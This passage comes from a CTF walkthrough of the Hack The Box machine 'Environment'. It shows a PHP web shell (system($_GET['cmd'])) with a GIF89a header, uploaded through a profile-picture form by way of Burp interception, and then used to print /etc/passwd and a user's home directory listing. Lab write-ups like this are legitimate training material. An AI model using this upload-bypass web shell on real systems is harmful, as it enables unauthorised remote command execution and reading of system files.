 I access the dashboard on hish’s account.

once on the dashboard I try to change the profile picture and I see in the server response that it is saved in a specific path:

![alt text](note/ctf/asset/HTB_environment1.png)

maybe an opportunity to try a webshell?

since it detects the file type I will BURP to intercept the upload of an image and remplace by my payload using a GIF header + . at the end

```
shell.php.

GIF89a
<?php system($_GET['cmd']);?>
```

and it is saved here [http://environment.htb/storage/files/webshell1.php](http://environment.htb/storage/files/webshell1.php)

so I can pass my commands here and extract some info!

## Extraction:

passwd:

```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:x:42:65534::/nonexistent:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin messagebus:x:100:107::/nonexistent:/usr/sbin/nologin avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin sshd:x:102:65534::/run/sshd:/usr/sbin/nologin hish:x:1000:1000:hish,,,:/home/hish:/bin/bash _laurel:x:999:996::/var/log/laurel:/bin/false
```

hish home files:

```bash
total 44 drwxr-xr-x 6 hish hish 4096 Jul 3 02:35 . drwxr-xr-x 3 root root 4096 Jan 12 11:51 .. lrwxrwxrwx 1 root root 9 Apr 7 19:29 .bash_history -> /dev/null -rw-r--r-- 1 hish hish 220 Jan 6 21:28 .bash_logout -rw-r--r-- 1 hish hish 3526 Jan 12 14:42 .bashrc drwxr-xr-x 4 hish hish 4096 Jul 3 11:11 .gnupg -rw------- 1 hish hish 20 Jul 3 02:35 .lesshst drwxr-xr-x 3 hish hish 4096 Jan 6 21:43 .local -rw-r--r-- 1 hish hish 807 Jan 6 21:28 .profile drwxr-xr-x 4 hish hish 4096 Jul 2 20:23 .terminfo drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 backup -rw-r--r-- 1 root hish 33 Jul 2 14:03 user.txt
```
